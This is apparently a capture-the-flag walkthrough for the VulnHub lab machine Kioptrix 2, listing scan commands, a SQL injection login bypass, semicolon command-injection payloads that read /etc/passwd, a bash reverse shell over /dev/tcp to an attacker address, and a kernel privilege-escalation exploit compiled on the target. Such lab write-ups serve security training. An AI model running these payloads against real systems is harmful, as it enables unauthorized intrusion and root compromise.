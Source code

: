 Kioptrix 2 - VulnHub

netdiscover -i eth0

![ki21](https://user-images.githubusercontent.com/15195048/95867730-c4d5b880-0d69-11eb-904e-a97aad4b16d1.png)

nmap -sC -sV 192.168.1.10

![ki22](https://user-images.githubusercontent.com/15195048/95867732-c606e580-0d69-11eb-9e55-4d510adc5aaf.png)

nmap -p- 192.168.1.0

![ki23](https://user-images.githubusercontent.com/15195048/95867734-c69f7c00-0d69-11eb-9977-3e031ffacf3c.png)


dirb http://192.168.1.10


192.168.1.10:80 &192.168.1.10:443

![ki24](https://user-images.githubusercontent.com/15195048/95867735-c7381280-0d69-11eb-86b0-59e30c93b803.png)



SQL Injection

![ki25](https://user-images.githubusercontent.com/15195048/95867738-c7381280-0d69-11eb-9788-67ce7dc5ea60.png)


*Don't forget to try queries with double and single quotes
Login 

![ki26](https://user-images.githubusercontent.com/15195048/95867740-c7d0a900-0d69-11eb-91f3-177510468ff5.png)

This field is vulnerable to command injection using semicolon ;.

;ls -la

![ki27](https://user-images.githubusercontent.com/15195048/95867744-c8693f80-0d69-11eb-839e-88813e1c0faa.png)

;cat /etc/passwd

![ki28](https://user-images.githubusercontent.com/15195048/95867745-c8693f80-0d69-11eb-8492-ee72a515c6f3.png)

;bash -i >& /dev/tcp/192.168.1.5/8888 0>&1

![ki29](https://user-images.githubusercontent.com/15195048/95867746-c901d600-0d69-11eb-895f-83aa030d4dc6.png)

python -c 'import pty; pty.spawn("/bin/bash")'
ls -al
we see index.php
i found usernames and password for mysqlserver.We can log into mysql server using those credentials.

![ki210](https://user-images.githubusercontent.com/15195048/95867750-c99a6c80-0d69-11eb-956a-5343afdeb56b.png)

The website runs a mysql server on port 3306.

Privilege Escalation(ROOT)
uname -a -no specific info
lsb_release -a showed vulnerable kernel.



![ki211](https://user-images.githubusercontent.com/15195048/95867752-c99a6c80-0d69-11eb-9734-482df8a26c1a.png)
search Cent0s 4.5 exploit

Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)


![ki212](https://user-images.githubusercontent.com/15195048/95867756-ca330300-0d69-11eb-82c3-de18a94890c2.png)


Start a python server in order to grab this file from our victim machine.
Grab it,compile it 
gcc -o toRun 9542.c #compile it
 make it executable run it and ROOOTEEEED!
 
